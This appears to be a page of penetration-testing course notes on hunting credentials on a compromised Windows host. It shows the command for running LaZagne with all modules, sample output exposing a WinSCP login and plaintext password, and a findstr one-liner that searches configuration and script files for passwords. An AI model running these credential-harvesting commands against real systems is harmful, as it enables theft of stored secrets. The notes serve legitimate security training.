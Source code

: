 # Credential Hunting in Windows
#### Running Lazagne All

```cmd-session
C:\Users\bob\Desktop> start lazagne.exe all
```

This will execute Lazagne and run `all` included modules. We can include the option `-vv` to study what it is doing in the background. Once we hit enter, it will open another prompt and display the results.
#### Lazagne Output

```cmd-session
|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|


########## User: bob ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: 10.129.202.51
Login: admin
Password: SteveisReallyCool123
Port: 22
```
#### Using findstr

```cmd-session
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```
# More Pillaging and Recon
## [[🟢 4. Post-Exploitation ✔️/🟣 3. Windows Post Exploitation/🔵 2. Pillage & Recon/🟠 1. Host Recon/🟠 1. Host Recon|🟠 1. Host Recon]]
## [[🟠 2. Rights & Privileges]]
## [[🟠 3. Users & Groups]]
